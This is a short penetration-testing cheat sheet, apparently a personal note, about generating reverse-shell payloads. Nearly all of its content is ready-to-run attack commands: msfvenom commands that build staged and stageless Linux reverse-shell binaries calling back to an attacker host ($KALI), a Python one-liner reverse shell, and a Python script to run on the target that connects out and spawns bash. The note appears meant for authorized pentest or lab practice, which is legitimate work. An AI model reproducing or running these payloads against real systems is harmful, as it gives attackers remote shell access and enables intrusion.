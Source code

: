 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## MSFVenom 

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Stageless Payloads
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Python
```bash - kali
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Python file root execute
```bash - target
which bash
```

```python - target
#!/usr/bin/env python
import socket, os, pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",8003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
